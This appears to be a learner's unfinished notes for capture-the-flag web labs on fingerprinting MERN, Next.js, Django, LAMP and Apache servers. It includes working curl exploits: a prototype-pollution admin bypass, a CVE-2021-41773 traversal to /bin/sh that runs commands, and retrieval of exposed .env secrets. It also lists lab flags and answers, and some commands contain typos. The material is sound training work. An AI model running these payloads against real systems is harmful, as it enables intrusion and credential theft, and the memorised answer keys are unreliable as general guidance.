MERN Stack: The stack (MangoDB, Express.js,React, Node.js) powers a large share of modern SaaS products, internal tools and API Backends. Express is the most deployed Node.js web framework.

Stack Identity : 

MERN apps are the default choice for java script only shops that want one language across the full stack. On ubantu, the typical deployment is node.js from the NodeSource PPA. Express listening portis 5000 or 3000 and Mango DB port is 27017.

A reverse proxy (usually Nginx) sits in front in production, but in misconfigured environments and internal tools, the Express process is often directly exposed.

**Fingerprinting the MERN Stack:**

Lets start with header check:

curl -I 10.64.186.232:3000/

Results obtained are as below:



Look for these responses

| Signal | Value |
|--------|-------|
| X-Powered-By header| Express |
| Set-Cookie header | connect.sid=s%3A... |
| Unhandled route response | Cannot GET /nonexistent (plain text) |
| Frontend root element | In the HTML Body |

X-Powered-By: Express is the primary signal. Express sends this header on every response by default. It is only absent if the developer explicitly called app.disable('x-powered-by') or added the Helmet middleware.

If X-Powered-By is absent, fall back to cookie name and unhandled-route format as secondary signals.

The connect.sid cookie comes from the express-session middleware. It is present when the app uses express-session with saveUninitialized: true (the default for many apps). With saveUninitialized: false, the recommended setting for login sessions, the cookie only appears after a session is created. Absence of connect.sid does not rule out Express.

To confirm the Expres unhandled-route fingerprint, request a nonexistent path from the Attackbox

Run curl http://10.64.186.232:3000/nonexistent



An Express app with default settings returns plain text: Cannot GET /nonexistent. This is distinct from Django (which shows an HTML error page), Apache (which shows a styled 403 or 404), and Next.js (which returns an HTML page with a styled error). That plain-text response is unambiguous.

Exploiting MERN:

We have confirmed that the Stack: Express on port 3000 with connect.sid session cookie. In a pentest against a MERN application, the next step after fingerprinting is API surface enumeration. MERN apps commonly expose JSON APIs for profile updates, preferences, and user settings, and developers often write their own utility functions to apply partial updates to user objects. Those utility functions are where prototype pollution typically lives.

As per the details mentioned, the app on port 3000 exposes two endpoints:

/api/user/update ---> Post ----> accepts Json and mergers it into session user object
/api/admin/flag ----> Get -----> Returns a flag if requesting user has admin access.

So first you need to save your session cookies, that can be done by using curl -c cookies.txt http://Machine_IP:3000/

Now try to access the admin portal using the cookies you saved: curl -b cookies.txt http://Machine_IP:3000/api/admin/flag --> you will get an error as not authorized which is accepted , as you are regular session user who does not have isAdmin property.

Now we need update an username and email address change to the database, lets check if updating by using:

curl -b cookies.txt -X POST http://Machine_IP:3000/api/user/update -H "Content-Type: application/json" -d '{"name": "Alice", "email":"alice@example.com"}' 

when you run this query --> you get that the status as been updated. So we know that the endpoint accespts arbitary JSON keys and merges them into the user object with no key filterting. The merge fuction here is the attack surface.

Every JavaScript object inherits from a shared root called Object.prototype. When a merge function receives {"proto": {"isAdmin": true}} without filtering the proto key, it writes isAdmin: true directly onto Object.prototype, not onto any individual user object. Every object in the Node.js process that looks up .isAdmin will then find true via the prototype chain, even if the property was never explicitly set on that object. The admin flag endpoint checks currentUser.isAdmin on a plain session object with no own isAdmin property, making it the exact target. Some hardened deployments filter __proto__ at the input layer; in those cases, the constructor.prototype path ({"constructor": {"prototype": {"isAdmin": true}}}) reaches Object.prototype through a different route and can bypass those filters. You can learn more about the Prototype Pollution room.

When the payload {"__proto__": {"isAdmin": true}} reaches this function, it finds __proto__ in the source keys, sees it is an object, and recurses. Inside the recursion, target["__proto__"] is a reference to Object.prototype not a regular key, so it sets Object.prototype.isAdmin = true. The admin route then reads currentUser.isAdmin, finds no own property, walks the prototype chain, and returns the flag.

so this can be done by running the command :

curl -b cookies.txt -X POST http://Machine_IP:3000/api/user/update -H "Content-Type: application/json" -d '{"__proto__:" {"isAdmin": true}}'

The server responds with {"status":"updated"}. The merge has run and Object.prototype.isAdmin is now true in the Node.js process.

Now let's request for the flag --> that is done by running 

curl -b cookies.txt http://Machine_IP:3000/api/admin/flag

**Questions:**

What HTTP response header confirms an Express.js backend is running? (Answer Format: Header-Name: 
Value): X-Powered-By: Express

What is the name of the Express session cookie you will use to replay requests after polluting the prototype? (Answer Format: cookie-name) --> connect.sid

Send the prototype pollution payload to the merge endpoint. What is the flag returned by the admin route after the bypass succeeds? --> THM{pr0t0_p0llut3d}

**React/Next.js**

Express is the Foundation of the MERN Stack we just exploited.Next.js builds on top of it, adding abstractions like the App Router, React Server Components, and middleware that create a different and more severe attack surface.

**Stack Identity**

Next.js is the dominant React framework for production applications. It is what you will find behind most investor dashboards, customer portals, and marketing sites built in the last three years. On Ubuntu, it runs as a Node.js process under a dedicated user (node or www-data), typically started with npm start after npm run build. The App Router (introduced in Next.js 13, default since 14) enables React Server Components, which make the CVEs CVE-2025-29927(opens in new tab) and CVE-2025-55182(opens in new tab) possible.

React Server components and the flight protocol:

The App Router runs React components directly on the server. Instead of shipping JavaScript to the browser, the server executes the component and streams the result to the client using a binary-like format called the RSC Flight protocol. That streaming channel, the endpoint that serves this payload, is the attack surface for CVE-2025-55182.

**Fingerprinting Next.js**

Since port 3000 --> we already know this is running port 3000, automatically when we start npm run dev --> it automatically assignes to port 3001. So lets run the command.

curl -I http://Machine_IP:3001 --> which gives the following result as shown below:



| Signal                      | Value                                       | Confidence                  |                                                                                                                                                                                   
| --------------------------- | ------------------------------------------- | --------------------------- | 
| X-Powered-By header         | `Next.js`                                   | High                        |
| HTML source                 | `window.__next_f` present in HTML           | High (App Router indicator) |                                                                 
| Static asset paths          | `/_next/static/chunks/`                     | High                        | 
| Middleware headers          | `x-middleware-rewrite`, `x-middleware-next` | Medium                      |
| Redirect to protected route | HTTP `307` → `/login`                       | Medium                      | 

window.__next_f in the page source is the definitive App Router indicator. It is the hydration array for React Server Component data, injected by Next.js into every App Router page's HTML output. It does not appear in Pages Router or any other framework.

**CVE-2025-29927: Middleware Bypass**

In Next.js, middleware is a function that runs before every request reaches a page. Developers use it as the central gatekeeper; authentication checks, session validation, and redirect logic all live here. Because middleware sits in front of every route, it is the single most common place developers implement access control in Next.js applications.

The /dashboard route in this app is a typical example. The middleware checks for a valid session cookie. Without one, it redirects to /login. Let us confirm that it is working:

Run the command curl -v http://10.64.149.216:3001 - this command has to check, if the middleware is working fine that it needs to redirected to the /login page.



Now for the vulnerability, Next.js uses an internal headder called x-middleware-subrequest to prevent infinite loops. When middleware calls itself recursively (for example, to forward a modified request to another route), Next.js attaches this header so it knows not to run middleware again on that forwarded request. It is a performance and safety mechanism built into the framework itself. 

The critical flaw: Next.js never checked whether x-middleware-subrequest was coming from an internal process or from an external client. If you include the header in your own request, Next.js treats it the same as an internal subrequest and skips middleware entirely. The authentication check never runs.

The header value encodes the middleware module path, repeated five times. For an app with a root-level middleware.ts file:

Questions: 

1.What HTML artifact in the page source confirms a Next.js App Router application? --> window.__next_f
2.Send the CVE-2025-29927 bypass header to the protected /dashboard route. What flag is displayed on the page? (Answer Format: THM{...}) --> THM{m1ddl3w4r3_byp4ss3d}



**Django:**

The Mern and Next.js stack run with node.js whereas Django is the python-native alternative framework that government agencies, newsrooms, and SaaS companies with Python engineering teams reach for first.

CVE-2021-35042 is a SQL injection vulnerability in Django's order_by() query method, rated CVSS 9.8 Critical and requiring no authentication to exploit.

Stack identity:

Django powers a large share of Python-backed web applications. On Ubuntu, it runs under Gunicorn or Django's built-in development server, typically on port 8000. The Django admin panel at /admin/ and CSRF middleware are enabled by default in virtually every Django project. The admin panel alone is a reliable stack signal before you send a single exploit payload.

Fingerprint Django:

curl -I http://Machine_IP:8000/products

-------Need TO fill More Details---DO Later.

Questions

What hidden form field in Django POST forms is a near-certain stack fingerprint? --> csrfmiddlewaretoken

Using manual curl payloads, what is the name of the vulnerable database? --> vuln_db

**LMAP:**

The Four ComponentsThe acronym LAMP represents the four layers of the development 
environment:

1. Linux: The open-source operating system that serves as the base layer for the entire stack.
2. Apache: The web server software that processes incoming HTTP client requests and delivers web assets.
3. MySQL: The relational database management system (RDBMS) used to store and manage application data.
4. PHP: The backend programming language used to write business logic and generate dynamic web content (sometimes substituted with Perl or Python

LAMP (Linux, Apache, MySQL, PHP) is one of the earliest and most widely adopted web application stacks. It became popular because all its components are open-source, stable, and easy to deploy. Linux provides the operating system, Apache handles web requests, MySQL manages the database, and PHP processes dynamic content.

Stack Identity:

On Ubuntu, Apache usually runs under www-data, serves files from /var/www/html, and passes dynamic requests to PHP through mod_php or PHP-FPM. MySQL stores the application data, while PHP handles server-side logic. This classic Linux, Apache, MySQL, and PHP combination creates common attack surfaces such as exposed PHP files, database errors, weak file permissions, and misconfigured Apache/PHP settings.

Fingerprinting the LAMP Stack 

Start with header check using curl, Apache Advertisies in every response

Run the command : curl -I http://Machine_IP:8080

root@tryhackme:~# curl -I http://10.66.133.74:8080/
HTTP/1.1 200 OK
Server: Apache/2.4.49 (Unix)
Last-Modified: Mon, 11 Jun 2007 18:53:14 GMT
ETag: "2d-432a5e4a73a80"
Accept-Ranges: bytes
Content-Length: 45
Content-Type: text/html

The Output says this is a Apache/2.4.49 (UNIX Version), To confirm, we can request an non-existent path to confirm.

Run curl -v http://MachineIP:8000/nonexistent --> Even this confirms that the server is running apache/2.4.9. This exact version maps to CVE-2021-41773 and nothing else. Apache also repeats the version in 404 error page footers.

The final signal is /cgi-bin/. A 403 Forbidden means the directory exists, and listing is disabled. mod_cgi is configured. A 404 would mean it is not present at all. For confirming this run curl -v http://machineip:8000/cgi-bin/

Once Done, look for the header : 

## Enumeration Findings

| Signal | Value | Confidence |
|----------|----------|------------|
| Server Header | `Apache/2.4.49 (Unix)` | High — Exact CVE match |
| 404 Error Page Footer | `Apache/2.4.49` version string | High |
| `/cgi-bin/` Response | `403 Forbidden` (instead of `404 Not Found`) | High — Indicates `mod_cgi` is enabled |

**CVE-2021-41773: The Vulnerability**

Apache 2.4.49 introduced a change to the ap_normalize_path() function. The change inadvertently broke the path traversal filter. Normally, Apache blocks any URL containing ../ before it reaches the filesystem. The bug is in the decode order: the traversal filter runs before full URL decoding.

When you send .%2e/ (a literal dot followed by the URL-encoded dot and a slash), the filter sees .%2e/ and does not recognise it as ../. When Apache passes the URL to the filesystem, the OS resolves .%2e/ as ../. The filter was bypassed.

On its own, this is directory traversal for file read. What makes it critical is the interaction with mod_cgi. The /cgi-bin/ path has CGI execution enabled. When the traversal resolves to an executable binary like /bin/sh, Apache runs it as a CGI script and passes the HTTP POST body to its stdin.

**Why --path-as-is Is Required**

curl normalises URLs before sending them. Without --path-as-is, curl cleans up .%2e/ sequences before the request leaves your machine, and the server receives a normal path. The flag tells curl to send the URL exactly as typed.

Warning: If your traversal requests return 403 instead of executing, the most common cause is a missing --path-as-is flag. curl silently normalises the traversal sequences, and the server never sees the encoded dots.

Exploitation 

You have confirmed Apache 2.4.49 on port 8080, with mod_cgi enabled on /cgi-bin/. You have a direct path to unauthenticated RCE.

--> Traverse from /cgi-bin/ up to /bin/sh using four .%2e/ segments. Pass shell commands in the POST Body. The echo Content-Type text/plain; echo; preamble is required by the CGI spec. Apache needs a valid HTTP Header block before the body or it returns a 5000. The bare echo outpurs the required blank seperator line:

Run the command :

curl -s --path-as-is "https://machineip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" --data 'echo Content-Type: text/plain; echo; id'

This gives: 

Then run the command to get the flag

curl -s --path-as-is "https://machineIP:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" --data 'echo Content-Type: text/plain; echo; cat /flag.txt'

This gives 

**Questions**: 

1. What exact Server header value identifies this target as vulnerable to CVE-2021-41773? (Answer Format: Apache/X.X.XX (OS) -->Apache/2.4.49 (Unix)
2. What curl flag is required to prevent curl from normalising the traversal sequences in the URL before sending? --path-as-is
3.What are the contents of the flag.txt file? --> THM{4p4ch3_p4th_tr4v3rs4l}

**Automation:**

Manual fingerprinting teaches you what signals matter and why. When you are working through a scope with many hosts, Nikto gives you a quick first pass; it probes each service, reads response headers, and surfaces stack signals and known misconfigurations without you writing a single payload.

Scanning All Four Stacks

Run Nikto against each port in turn: MERN on port 3000, Next.js on port 3001, Django on port 8000, and Apache on port 8080.



No Server: banner; Express does not send one by default. Two signals confirm the stack: x-powered-by: Express and the connect.sid session cookie. The missing httponly flag on the session cookie is a bonus finding.

**Port 3001 - Next.js**



x-powered-by: Next.js confirms the framework. The three x-nextjs-* headers confirm that the App Router is in production mode, the condition required for CVE-2025-29927 to apply.

**Port 8000 - Django**

WSGIServer/0.2 CPython/3.10.12 is a Django-specific server banner. The combination of referrer-policy: same-origin and x-content-type-options: nosniff together confirm Django's SecurityMiddleware is active.



**Port 8080 - Apache**



Server: Apache/2.4.49 (Unix) is a direct CVE-2021-41773 indicator. This is the most valuable finding Nikto produces across all four scans: an exact version number that maps to a known critical exploit.

CVE Summary: 

| Stack              | CVE            | Impact                                     | CVSS         |
| ------------------ | -------------- | ------------------------------------------ | ------------ |
| MERN / Express     | CVE-2020-8203  | Prototype pollution → auth bypass          | 7.4 High     |
| Next.js Middleware | CVE-2025-29927 | Single header → full middleware bypass     | 9.1 Critical |
| Django ORM         | CVE-2021-35042 | SQL injection via unparameterised ORDER BY | 9.8 Critical |
| Apache LAMP        | CVE-2021-41773 | Path traversal + mod\_cgi RCE              | 9.8 Critical |

**Web Server Attacks - 1**

Before you start enumerating directories or testing inputs, you need to know what you are dealing with. The web server software itself shapes which misconfigurations are possible, which paths are worth checking, and which tools will be most effective. Identifying the server is not a formality. It directly influences every decision that follows.

**The Server Response Header:**

The most direct fingerprinting signal is the Server header in an HTTP response. When you make any request to a web server, the server includes this header in its reply. Different server software formats it differently, and those formats are consistent enough to use as positive identifiers.

Run curl with the -I flag to request only the headers, not the response body.



The Server header tells you the software and version outright. Not every server exposes this much detail. A hardened deployment might show only Apache or suppress the header entirely, but the default configuration on most Ubuntu servers leaves this information visible.

Here is what each server in this lab returns by default:

| Port | Server             | Default Server Header          |
| ---- | ------------------ | ------------------------------ |
| 80   | Apache2            | `Apache/2.4.x (Ubuntu)`        |
| 8000 | Python HTTP Server | `SimpleHTTP/0.6 Python/3.xx.x` |
| 3000 | Node.js Express    | None (set by application)      |
| 8080 | Nginx              | `nginx/1.xx.x`                 |

Notice that the Node.js Express entry shows no Server header. Express does not set one by default; the Node.js HTTP layer beneath it does not either. A developer has to add it explicitly. On a real Express application, the absence of a Server header is itself a signal. The reliable identifier for Express is the X-Powered-By header, which Express sets automatically unless the developer removes it.

The X-Powered-By Header

Some frameworks add an X-Powered-By header that reveals the application layer behind the server. Express sets this by default:

X-Powered-By: Express

This header is separate from Server, and for Express, it is the primary fingerprint. Unlike Apache or Nginx, which announce themselves in the Server header, Express relies on X-Powered-By as its identifier. Check for it on any port where Server is missing or generic.

Browse DevTools: 

If you are working in a browser, the Network tab in DevTools provides the same header information without any additional tools. Open http://10.65.148.35:3000 in Mozilla Firefox, then right-click anywhere on the page and choose Inspect (or press F12) to launch Developer Tools. Navigate to the Network tab and refresh the page to capture the requests. Select the main request from the list, and under the Headers section, view the Response Headers to inspect the server’s response details.

**Questions:**

1. What value does the Server header return for the Python HTTP Server running on port 8000? (Answer Format: SimpleHTTP/X.X Python/X.X.X)
-->SimpleHTTP/0.6 Python/3.12.3
2. Which HTTP header reveals the application framework running on port 3000? --> X-Powered-By
3. What web server software is running on port 8080?--> Ngnix

**Python Http Server :**

Python Ships with a built in HTTP Server that any developer can start with a single command.

pyhton3 -m http.server 8000

Developers use it to quickly share files, test static websites, or transfer something between two machines on the same network. The problem is that "quickly share files" sometimes becomes "accidentally exposed to the internet for six months", running on public-facing servers, internal network shares, and cloud instances where someone opened port 8000 in the firewall and forgot about it. The server has no access control, no authentication, and no logging beyond what the OS captures.

**What It Serves**

Pyhton Http Server contains the entire working directory, including every file in it like odt files like .env. There is no .htaaccess equivalent, no blocklist, no configuration file. If the file exist in the directory --> then anyone can reach via port 8000 and downloaod it

**Directory Listing**

When there is no index.html file present in the directory then the Python Http Server generates an HTMl Page listing eery file it can see. We can access it using 

curl -s http://Machine_IP:8000

Accessing .Dot files:

Dotfiles like .env are hidden from normal directory navigation on Linux but python http server does not respect the convention. It serves them like any other file. The .env file is common target becausr developers use it to store environment-specific configuration and that configuration normally includes credentials:

curl -s http://MachineIP:8000/.env

Downloading and Inspecting archives:

curl -s http://Machine_IP:8000/backup.zip -o backup.zip

The Python HTTP server is a realistic finding because it requires no exploitation. There is no vulnerability to trigger. The server is functioning exactly as designed. The misconfiguration is that it is running in a location where it should not be, serving files that should not be public. Documenting this in a real engagement means explaining not just that the server exists, but also what it exposes and what an attacker could do with that information.

**Questions:**

1. What database password is stored in the .env file served by the Python HTTP Server? --> S3cur3DBPass!
   
2. What is the flag found inside the backup archive served by the Python HTTP Server? --> THM{py_server_exposed}
   

Apache2: 

Apache is the most widely deployed web server in the world, which means it appears in nearly every engagement that touches web infrastructure. Its default Ubuntu configuration leaves several things enabled that testers regularly find and report. The three most common are directory listing on specific paths, the server-status module, and backup files sitting in the document root.

Version Disclosure:

curl -sI http://10.67.162.116:80 | grep -i server 



Apache on Ubuntu defaults to ServerTokens OS, which includes the OS label alongside the version number. Knowing the exact version helps you check for known CVEs and understand the server's capabilities.

**Directory Listing:**

Apache's Options +Indexes directive tells the server to display a file listing when a directory does not have an index.html or similar default file. This is sometimes enabled intentionally for internal file share directories and accidentally left on paths that contain sensitive data.

Browse to the URL : http://MachineIP/Files path

You should see an HTML page with a title of "Index of /files" listing the files available in that directory. Apache's directory listing includes filenames, file sizes, and last-modified dates, which gives you a clear picture of what is there before you decide what to retrieve.

When you find a directory listing, read every file in it. Developers sometimes leave CSV exports, internal notes, or backup files in directories they intended only for casual internal use. Each one is worth checking.

**The mod_status page:**

Apache includes a built-in status page powered by the mod_status module. When correctly configured, it is accessible only from localhost. When misconfigured with Require all granted, it is accessible from any IP. You can access it using http://MACHINE_IP:80/server-status, as shown below:

The status page shows active connections and what paths they are requesting, the total number of requests served since the server started, worker states (idle, writing, reading, closing), and the server version and start time. On a production server, this leaks real-time information about what other users are doing and what internal paths exist. It also confirms the exact server version in the page header.

Info: mod_status is enabled by default on Ubuntu's Apache package and ships with a Require local restriction in conf-available/security.conf. However, a Require all granted directive anywhere in a virtual host configuration silently overrides that restriction, exposing /server-status to all IPs without touching the module config. Always check /server-status even on servers that appear to be using default settings.

**Finding Unlinked Files with Gobuster**

Not everything interesting is linked from a page or visible in a directory listing. Backup files, old configuration copies, and forgotten test files often sit in the document root with no links pointing to them. Tools like Gobuster discover these by guessing paths against a wordlist.

Note: SecLists should be available at /usr/share/wordlists/SecLists/ on the AttackBox. If you are using your own Kali VM and SecLists is not installed, run sudo apt install seclists to get it.

Tip: The full SecLists common.txt wordlist is large. With the -x flag adding three extension variants per word, the scan makes a significant number of requests and can take several minutes on a remote target. If you want a faster result, try running without -x first to find directories, then add -x bak for a targeted extension sweep.

When Gobuster finds a file with a .bak extension, that is almost always worth retrieving. Backup files frequently contain configuration snippets, credentials, or copies of source code.

Also, pay attention to .htpasswd files if they appear in the output. Apache uses .htpasswd to store usernames and hashed passwords for HTTP Basic Authentication. Finding an accessible .htpasswd file gives you a credential hash that can be cracked offline, and confirms that some part of the site uses Basic Auth, which tells you what paths are worth trying authenticated access on.

The pattern here is consistent across Apache investigations: check the version header, browse any directory that allows listing, visit /server-status, and use gobuster to find unlinked files. These four steps cover the majority of what a misconfigured Apache server will expose.

**Questions:**

1. What Apache module exposes real-time server statistics at /server-status? --> mod_status
2. What is the flag found in the /files/ directory on Apache? visit http://MachineIP:80/files -->  THM{apache_dir_listing}

**Node.js(Express)**

Node.js applications behave differently from Apache and Python HTTP servers. They are not serving static files from a configured document root. They are running application code, and that code decides what to return for every request. That flexibility is powerful, but it is also where many mistakes occur.
Attackers look at Node.js Express applications specifically because developers often leave development-mode features enabled when they push to production. Debug endpoints, verbose error responses, and exposed environment variables all stem from the same habit: code that worked in development went live as-is. The result is an application that tells you exactly how it is built and, sometimes, what credentials it uses.

Frame work Fingerprinting

